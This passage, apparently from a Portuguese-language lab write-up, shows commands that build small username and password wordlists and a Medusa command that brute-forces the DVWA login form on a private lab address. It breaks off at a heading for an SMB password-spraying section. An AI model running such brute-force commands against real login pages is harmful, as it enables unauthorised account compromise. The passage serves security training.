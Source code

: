 **Comando para criação de Wordlist users.txt e pass.txt**:
```bash
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt  
```

```bash
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt  
```

**Comando Medusa**:
```bash
medusa -h 192.168.56.102 -U users.txt -P pass.txt -M http \ -m PAGE:'/dvwa/login.php' \ -m 
FORM:'username=^USER^&password=^PASS^&Login=Login' \ -m 'FAIL=Login failed' \ -t 6 
```

### 📷 Imagem de exemplo:

![dvwa](images/dvwa.png)

### 3.3 Ataque SMB com Password Spraying + Enumeração
